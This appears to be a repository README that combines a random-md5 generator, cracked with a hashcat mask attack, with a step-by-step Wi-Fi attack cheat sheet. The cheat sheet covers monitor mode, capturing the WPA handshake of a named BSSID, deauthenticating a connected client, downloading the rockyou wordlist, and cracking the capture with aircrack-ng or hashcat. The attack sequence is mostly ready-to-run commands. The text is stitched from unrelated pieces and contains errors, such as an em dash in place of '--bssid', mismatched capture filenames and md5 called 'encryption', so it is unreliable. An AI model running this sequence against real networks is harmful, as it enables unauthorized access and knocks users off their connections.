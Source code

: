 # Cryptography
Cryptography is a method of protecting information and communications through the use of codes so that only those for whom the information is intended can read and process it. The pre-fix "crypt" means "hidden" or "vault" and the suffix "graphy" stands for "writing."

# random-md5-generator 
creating a random password with md5sum encryption and then save the encrypted password in md5keys.txt

# How to use 
./random-md5-generator

Genateted Number:

879076701

-----------------------

Number to md5 Password:

82fc843ab6a4c1767572f75775800ae8  -


delete the  - from the file md5keys.txt

# crack with

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d


# then use 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show 

or 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show >> md5keys.txt

to see the unencypt keys 


# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 — bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# crack password with aircrack-ng… ########### download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with hashcat ##########
# convert cap to hccapx
cap2hccapx.bin .-01.cap example.hccapx

# crack with hashcat
hashcat -w 3 -m 2500 rockyou.txt example.hccapx  --force --self-test-disable
